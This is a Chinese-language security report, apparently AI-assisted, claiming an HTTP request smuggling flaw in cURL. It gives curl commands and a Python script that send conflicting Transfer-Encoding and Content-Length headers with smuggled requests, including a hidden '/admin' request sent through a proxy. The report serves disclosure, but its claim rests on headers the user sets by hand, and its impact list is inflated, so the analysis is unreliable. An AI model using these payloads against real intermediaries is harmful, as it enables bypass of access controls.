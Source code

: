 ```yaml
---
date: 2025-08-05T00:37:20+08:00
title: cURL HTTP请求走私漏洞深度分析
tags: [网络安全,漏洞分析,HTTP协议,cURL]
authors: qife
description: 本文详细分析了cURL中存在的HTTP请求走私漏洞，该漏洞源于同时处理Transfer-Encoding和Content-Length头时的不一致行为，可能导致认证绕过、缓存投毒等安全问题，包含完整的技术细节和复现步骤。
---
```


# HTTP请求走私漏洞分析 - cURL安全报告

## 摘要
cURL未明确拒绝同时包含Transfer-Encoding和Content-Length头的HTTP请求，当这些请求通过解释头方式与目标服务器不同的中间系统(代理、负载均衡器、防火墙)时，可能导致HTTP请求走私漏洞(CWE-444)。这种不一致的解释使攻击者可能绕过安全控制走私恶意请求或导致缓存投毒攻击。

该漏洞源于http.c中的http_req_set_reader()函数，该函数处理Transfer-Encoding头时未验证是否存在冲突的Content-Length头。虽然cURL内部优先处理Transfer-Encoding而非Content-Length，但不会移除或拒绝冲突的Content-Length头，导致两个头同时被发送。

注意：本漏洞分析通过手动代码审查cURL源代码完成，使用AI辅助构建和格式化本漏洞报告。

## 受影响版本
该漏洞影响包含当前HTTP请求处理实现的cURL版本。测试环境包括：

- cURL版本：8.4.0(curl-master分支)
- 平台：Windows 10, Linux Ubuntu 20.04
- libcurl版本：8.4.0
- 协议：HTTP/1.1, HTTP/2
- 特性：SSL, 分块传输编码

检查版本命令：
```bash
curl -V
```

## 复现步骤

1. 创建包含冲突头的测试HTTP请求：
```bash
curl -v -X POST \
  -H "Transfer-Encoding: chunked" \
  -H "Content-Length: 100" \
  -d "0\r\n\r\nSMUGGLED_PAYLOAD" \
  http://example.com/test
```

2. 观察cURL发送两个头而不拒绝：
- 使用-v标志监控实际HTTP请求
- 确认Transfer-Encoding: chunked和Content-Length: 100头同时存在
- 注意cURL使用分块编码处理请求同时保留Content-Length头

3. 使用代理设置演示走私可能性：
```bash
# 设置优先解释Content-Length的测试代理
# 然后通过代理发送冲突头
curl -v --proxy http://test-proxy:8080 \
  -H "Transfer-Encoding: chunked" \
  -H "Content-Length: 50" \
  -X POST \
  -d "0\r\n\r\nPOST /admin HTTP/1.1\r\nHost: target.com\r\n\r\n" \
  http://target.com/public
```

4. 使用Python脚本自动化测试：
```python
import subprocess

def test_smuggling():
    cmd = [
        "curl", "-v", "--include",
        "-H", "Transfer-Encoding: chunked",
        "-H", "Content-Length: 200",
        "-X", "POST",
        "-d", "0\r\n\r\nGET /smuggled HTTP/1.1\r\nHost: example.com\r\n\r\n",
        "http://example.com/endpoint"
    ]

    result = subprocess.run(cmd, capture_output=True, text=True)
    print("STDOUT:", result.stdout)
    print("STDERR:", result.stderr)

test_smuggling()
```

5. 通过检查HTTP流量验证漏洞：
- 使用Wireshark等工具捕获实际HTTP请求
- 确认冲突头同时存在于网络协议中
- 对不同服务器/代理测试相同请求以观察不同解释

## 支持材料/参考文献

- 源代码分析：http.c - http_req_set_reader()函数和http_req_complete()函数审查
- CWE分类：CWE-444 - HTTP请求不一致解释('HTTP请求/响应走私')
- CVSS评分：6.5(中危) - CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:L/A:L
- 概念验证脚本：演示漏洞的Python脚本(包含在上述步骤中)
- 网络流量捕获：Wireshark/tcpdump捕获显示同一请求中的两个头
- RFC参考：
  - RFC 7230 Section 3.3.3 (消息体长度)
  - RFC 7230 Section 3.3.1 (传输编码)
- 类似CVE：
  - CVE-2019-16276 (Node.js HTTP请求走私)
  - CVE-2020-11946 (多种web服务器中的HTTP请求走私)
- 安全研究：James Kettle的"HTTP异步攻击：请求走私重生"白皮书
- 测试环境：具有不同代理配置的Docker容器用于测试头解释差异

## 影响

攻击者利用此HTTP请求走私漏洞可实现以下重大安全影响：

1. 认证绕过
- 通过绕过认证机制走私请求到受保护端点
- 无需凭证访问管理接口或敏感API
- 通过不同认证上下文路由请求提升权限

2. 缓存投毒
- 通过将恶意内容与合法URL关联毒害web缓存和CDN
- 为后续请求缓存资源的用户提供恶意内容
- 操纵缓存响应注入恶意脚本或重定向用户

3. 请求劫持
- 在共享代理环境中拦截和修改其他用户请求
- 从共享同一连接的其他用户请求中窃取敏感数据
- 操纵会话令牌和认证凭证

4. 防火墙和安全控制绕过
- 通过在走私请求中隐藏恶意负载规避Web应用防火墙(WAF)
- 绕过中间设备实现的速率限制和访问控制
- 逃避安全监控和日志系统

5. 会话劫持
- 通过走私看似来自合法用户的请求操纵会话管理
- 通过拦截认证令牌劫持用户会话
- 以合法用户身份执行未授权操作

6. 数据泄露
- 通过走私请求到内部API或数据库访问敏感数据
- 绕过数据丢失防护(DLP)系统
- 通过精心构造的走私请求提取机密信息

7. 跨站脚本(XSS)和注入攻击
- 通过缓存投毒向响应中注入恶意脚本
- 通过走私数据库查询执行SQL注入攻击
- 通过毒害缓存内容执行存储型XSS攻击

影响严重性：中到高，取决于网络架构和安全控制措施。该漏洞在具有多层代理、CDN或共享托管基础设施的环境中尤其危险。